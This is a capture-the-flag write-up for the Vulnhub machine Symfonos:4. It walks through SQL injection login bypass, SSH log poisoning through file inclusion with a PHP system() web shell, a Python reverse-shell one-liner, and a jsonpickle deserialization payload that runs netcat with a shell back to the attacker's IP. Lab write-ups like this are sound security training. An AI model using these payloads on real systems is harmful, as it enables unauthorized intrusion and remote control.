

# Symfonos:4 - Writeup 

Symfonos:4 is an OSCP-like Intermediate real-life based machine from Vulnhub by Zayotic.<br />
This machine is designed to teach people the importance of trying harder.<br />
Link to the machine: [https://www.vulnhub.com/entry/symfonos-4,347/](https://www.vulnhub.com/entry/symfonos-4,347/)
<br />

## Information Gathering

Our first step is identifying our target IP Add.

```bash
┌─[a7@Parrot]─[~/Desktop/vulnHub/Symfonos:4]
└──╼ $fping -agq 10.10.10.0/24
10.10.10.1
10.10.10.2
10.10.10.10
```

<br />

## Ports and Services

Scanning our target for any open port, running services, and version detection.


<br />
<br />

## Web Enumeration

Let's visit the website.


<br />
<br />

We got a picture, inspecting the source code and nothing was found.<br />
Launch `gobuster` to brute-force hidden directories.


<br />
<br />

Let's visit `/atlantis.php`.


<br />
<br />

We got a **Login Form**, tried a few SQL Injection queries and it works.<br />
Enter in Username: `' or 1=1 -- -` and anything in Password.


<br />
<br />

We got a prompt to select a god. When selecting any god, we redirected to `/sea.php?file=hades`.


<br />
<br />

We may get a Local File Inclusion.<br />
Tried to include `/etc/passwd` but didn't work, tried to include different log files and we got `/var/log/auth` which indicates for ssh log poisoning.


<br />
<br />

Let's inject a php code in `/var/log/auth`, the code is:
```bash
ssh '<?php system($_GET['exp']); ?>'@10.10.10.10
```
> Ps: You could change the word "exp" to any word or letter, it's just a parameter to use.

<br />


<br />
<br />

Now, add `&exp=ls -la` to the URL.


<br />
<br />

Launch a listener, run the reverse shell in the `exp` parameter.<br />
The shell is:

```bash
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.10.2",1234));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")'
```
<br />


<br />
<br />

## Privilege Escalation

Searching around to escalate our privileges, we found a **Python code** in `/opt/code`.


<br />
<br />

I notice that files under `/opt/code` indicate a web application, so looked at the processes and open ports and found that there's port 8080 opened locally.


<br />
<br />

Port 8080 is allowed locally, so we need port forwarding to open it.<br />
Let's forward port 8080 to our machine: `socat TCP-LISTEN:2345,fork TCP:127.0.0.1:8080`


<br />
<br />

Great! Now, in the web browser open `10.10.10.10:2345`.


<br />
<br />

Click on **Main page**.


<br />
<br />

OK, back to `/whoami` page, inspecting the source code but nothing useful. Open **Burp** to see what's going on.


<br />
<br />

We got a cookie encoded in base64, let's decode it in the **Decoder**.


<br />
<br />

Remember, we saw this in `/opt/code`, this's **jsonpickle**.<br/>
Searching for an exploit and we found an article.

> Reference: [https://versprite.com/blog/application-security/into-the-jar-jsonpickle-exploitation/](https://versprite.com/blog/application-security/into-the-jar-jsonpickle-exploitation/)

Let's build our shell:
```bash
{"py/object": "__main__.Shell", "py/reduce": [{"py/type": "os.system"}, {"py/tuple": ["nc 10.10.10.2 3456 -e /bin/bash"]}, null, null, null]}
```
Encode it in the **Decoder**, in **Repeater** replace the old one with the new one and send it.


<br />
<br />
